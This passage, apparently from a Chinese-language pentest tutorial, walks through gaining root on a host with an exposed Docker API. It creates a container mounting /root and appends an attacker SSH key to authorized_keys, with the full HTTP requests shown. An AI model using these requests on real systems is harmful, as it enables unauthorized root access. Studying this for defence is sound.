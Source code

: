 [http://172.26.1.97:2375/containers/json](http://172.26.1.97:2375/containers/json)

![7.jpg](https://ae01.alicdn.com/kf/Uf6ff65134f7c4167b8870f3e87040c2eE.jpg)


4. 设置免登陆，获取服务器权限（当然得root权限启动docker）

原理：

利用接口创建一个新的容器，将宿主机的 /root/ 目录挂载到容器中，本例中是 /tmp 目录，然后将攻击机的 key (id_rsa.pub) 写入 /tmp/.ssh/authorized_keys 中，也就是写入到了宿主机的 /root/.ssh/authorized_keys 中，然后启动新创建的容器，就可以实现免登陆，从攻击机可以直接登录到靶机

1）创建容器

```
POST /containers/create HTTP/1.1
Host: 172.26.1.97:2375
Content-Type: application/json
cache-control: no-cache
Postman-Token: 7abe8d48-2e9d-4245-a7a4-dbd66279705e
{
 "Image":"ubuntu:18.04",
 "HostConfig":{
 "Binds":[
 "/root/:/tmp/:rw" 
 ]
 },
 "CMD":[
 "/bin/sh",
 "-c",
 "echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC6kYan1DO/mcdvu8WcYvmXbEh4WzHqy9k0yeoN0AY40Gg2tnP9TTDMHUWwT5EZk4+hkL7UMr+CMhjnqucZKX5Yw/GhF3kwQZN/NCu3GtJ3/Abl6G6y3J4ej0Q85kFPnPyIM5ZRygTqq728HaHWDgqwjqSG35Dh7pjuvIV8ULuekYpeFN607bEZ0lM3vt3/Kf/fBZQseZYSoj4/S+hWTmVivDThBGECcbCEpVACX3LLSqMvYEURUlEbE+f9qpLV1y7rSIQNJu3VsitHy2m7TAxScxAYsu3MhJFWYQVUZOlUEatW0Q3Ch9iLvD/H5rnBe+ps6088sp/P0CgzrElPChZ root@kali' >> /tmp/.ssh/authorized_keys"
 ]
}------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```
创建成功：
![8.jpg](https://ae01.alicdn.com/kf/U601ca3765d9948b881d416ad2db51de8t.jpg)

返回了 containers ID

```
{"Id":"28f2c8024538b93ed26a7ffadf9bce86b0361139947e8fb71767d2fa0d3e2b79","Warnings":[]}
```
2）获取container的信息检查一下是否有问题，这一步可以略过：
![9.jpg](https://ae01.alicdn.com/kf/Ude68ad19c7a14ec99a3f8c9bb58a608aP.jpg)

3）定是要先attach，再start，这样就可以捕获到输出:

attach包：

```
POST /v1.17/containers/bcd44e3731cc11cd0afe93445fd2e8ee9b0a34e7c39018920320b88fa6acd57b/attach?stderr=1&stdin=1&stdout=1&stream=1 HTTP/1.1
Host: 172.26.1.97:2375
User-Agent: Docker-Client/1.7.0 (windows)
Content-Length: 0
Content-Type: application/json
Accept-Encoding: gzip
```
start包：
```
POST /v1.17/containers/bcd44e3731cc11cd0afe93445fd2e8ee9b0a34e7c39018920320b88fa6acd57b/start HTTP/1.1
Host: 172.26.1.97:2375
User-Agent: Docker-Client/1.7.0 (windows)
Content-Length: 0
```